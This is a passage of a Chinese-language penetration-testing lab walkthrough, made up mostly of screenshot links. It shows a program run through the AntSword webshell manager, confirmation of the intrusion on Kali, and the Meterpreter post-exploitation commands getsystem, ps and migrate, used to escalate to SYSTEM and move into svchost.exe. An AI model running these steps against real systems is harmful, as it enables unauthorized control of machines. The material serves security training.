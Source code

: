 ![image-20211214193543801](https://gitee.com/xxb667/img/raw/master/img/image-20211214193543801.png)

![image-20211214193609301](https://gitee.com/xxb667/img/raw/master/img/image-20211214193609301.png)

#### 用中国蚁剑运行程序

![image-20211214193706012](https://gitee.com/xxb667/img/raw/master/img/image-20211214193706012.png)

去kali看看

入侵成功

![image-20211214193754944](https://gitee.com/xxb667/img/raw/master/img/image-20211214193754944.png)

## 5.后渗透阶段

### 查看当前角色

```
getuid
```

![image-20211215125428622](https://gitee.com/xxb667/img/raw/master/img/image-20211215125428622.png)

### 提权

提升权限

这里由于获得的直接是adminsitrator权限，所以可以直接提到system。在真实环境中，这里很多时候都是一个普通用户权限，需要我们去提权。

```
getsystem #进行提权
getuid
```

![image-20211215125645611](https://gitee.com/xxb667/img/raw/master/img/image-20211215125645611.png)

### 迁移进程

我们目前shell是32位的程序 ， 需要将`meterpreter`迁移到64位的程序上面 而且是system权限运行，否则很多命令执行不了

```
ps  #查看进程信息
```

找到 svchost.exe程序的进程号为644

![image-20211215130231943](https://gitee.com/xxb667/img/raw/master/img/image-20211215130231943.png)

```
migrate 644
```

![image-20211215130345397](https://gitee.com/xxb667/img/raw/master/img/image-20211215130345397.png)
